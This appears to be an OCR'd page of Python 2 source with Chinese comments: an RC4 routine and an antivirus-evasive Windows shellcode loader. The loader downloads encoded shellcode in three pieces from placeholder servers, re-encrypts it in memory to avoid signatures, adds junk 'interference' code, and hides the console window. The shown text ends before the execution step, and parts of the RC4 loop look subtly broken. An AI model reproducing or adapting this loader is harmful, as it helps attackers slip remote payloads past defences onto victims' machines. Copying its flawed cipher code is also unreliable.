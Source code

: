 ```
    key = hashlib.md5(public_key).hexdigest()
    keya = hashlib.md5(key[0:16]).hexdigest()
    keyb = hashlib.md5(key[16:32]).hexdigest()
    keyc = ckey_lenth and (op == 'decode' and string[0:ckey_lenth] or hashlib.md5(str(time.time())).hexdigest()[32 - ckey_lenth:32]) or ''
    cryptkey = keya + hashlib.md5(keya + keyc).hexdigest()
    key_lenth = len(cryptkey)  # 64
    string = op == 'decode' and base64.b64decode(string[4:]) or '0000000000' + hashlib.md5(string + keyb).hexdigest()[0:16] + string
    string_lenth = len(string)
    result = ''
    box = list(range(256))
    randkey = []
    for i in xrange(255):
        randkey.append(ord(cryptkey[i % key_lenth]))
    for i in xrange(255):
        j = 0
        j = (j + box[i] + randkey[i]) % 256
        tmp = box[i]
        box[i] = box[j]
        box[j] = tmp
    for i in xrange(string_lenth):
        a = j = 0
        a = (a + 1) % 256
        j = (j + box[a]) % 256
        tmp = box[a]
        box[a] = box[j]
        box[j] = tmp
        result += chr(ord(string[i]) ^ (box[(box[a] + box[j]) % 256]))
    if op == 'decode':
        if (result[0:10] == '0000000000' or int(result[0:10]) - int(time.time()) > 0) and result[10:26] == hashlib.md5(
                result[26:] + keyb).hexdigest()[0:16]:
            return result[26:]
        else:
            return None
    else:
        return keyc + base64.b64encode(result)

# 以下为shellcode loader代码

# shellcode字符串经过base64编码再经过hex编码分成三块，存放在某几个服务器上
# get请求方式得到经过编码的shellcode字符串
res1 = requests.get("http://xxx.xxx.xxx/code/Shellcode1.TXT")
res2 = requests.get("http://xxx.xxx.xxx/code/Shellcode2.TXT")
res3 = requests.get("http://xxx.xxx.xxx/code/Shellcode3.TXT")

VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
whnd = ctypes.windll.kernel32.GetConsoleWindow()

rcpw = GenPassword(13)

# 得到经过编码后的shellcode字符串后进行rc4加密，私钥通过GenPassword()函数得到
# 以此减少特码，达到内存中不暴露shellcode原始字符串
buf = rc4(base64.b64decode(res1.text+res2.text+res3.text).decode('hex'),'encode',rcpw)
rc4(res2.text,'encode',GenPassword(13))# 干扰代码

if whnd != 0:
    if GenPassword(6) != GenPassword(7):#干扰代码
        ctypes.windll.user32.ShowWindow(whnd, 0)
        ctypes.windll.kernel32.CloseHandle(whnd)

```